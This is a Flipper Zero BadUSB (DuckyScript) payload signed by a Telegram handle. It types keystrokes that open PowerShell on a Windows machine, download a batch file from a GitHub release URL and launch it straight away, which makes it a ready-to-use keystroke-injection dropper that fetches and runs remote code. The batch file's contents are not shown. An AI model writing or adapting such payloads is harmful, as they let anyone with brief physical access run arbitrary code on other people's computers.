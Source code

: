 # Скрипт для флиппера

REM Author: TG: FLUXSSSW
REM Description: TG: FLUXSSSW
REM Version: 1.5
DELAY 500
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1000
STRING Invoke-WebRequest -Uri https://github.com/fluxsss/FLIPPER-ZERO-TEST-SCRIPT/releases/download/BETA/script.bat -OutFile script.bat; Start-Process script.bat
ENTER
